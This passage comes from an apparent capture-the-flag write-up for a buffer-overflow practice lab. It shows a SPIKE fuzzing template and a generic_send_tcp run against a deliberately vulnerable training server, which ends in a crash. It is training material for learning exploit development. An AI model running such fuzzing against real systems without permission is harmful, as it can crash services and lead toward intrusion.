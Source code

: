 Created the spike template and started fuzzing the server:

```bash
┌──(kali㉿kali)-[~/CTFs/THM/Buffer-Overflow-Prep/oscp.exe-1]
└─$ nano OVERFLOW1.spk

┌──(kali㉿kali)-[~/CTFs/THM/Buffer-Overflow-Prep/oscp.exe-1]
└─$ cat OVERFLOW1.spk
s_readline();
s_string("OVERFLOW1 ");
s_string_variable("0");

┌──(kali㉿kali)-[~/CTFs/THM/Buffer-Overflow-Prep/oscp.exe-1]
└─$ generic_send_tcp 10.10.208.211 1337 OVERFLOW1.spk 0 0
Total Number of Strings is 681
Fuzzing
Fuzzing Variable 0:0
line read=Welcome to OSCP Vulnerable Server! Enter HELP for help.
Fuzzing Variable 0:1
line read=Welcome to OSCP Vulnerable Server! Enter HELP for help.
Variablesize= 5004
Fuzzing Variable 0:2
line read=Welcome to OSCP Vulnerable Server! Enter HELP for help.
Variablesize= 5005
Fuzzing Variable 0:3
line read=Welcome to OSCP Vulnerable Server! Enter HELP for help.
Variablesize= 21
Fuzzing Variable 0:4
line read=Welcome to OSCP Vulnerable Server! Enter HELP for help.
Variablesize= 3
Fuzzing Variable 0:5
Variablesize= 2
Fuzzing Variable 0:6
Variablesize= 7
Fuzzing Variable 0:7
Variablesize= 48
Fuzzing Variable 0:8
Variablesize= 45
Fuzzing Variable 0:9
Variablesize= 49
Fuzzing Variable 0:10
Variablesize= 46
Fuzzing Variable 0:11
Variablesize= 49
Fuzzing Variable 0:12
Variablesize= 46
Fuzzing Variable 0:13
Variablesize= 47
```

![Server crash](../../zzz_res/attachments/Pasted_image_20210502171951.png)
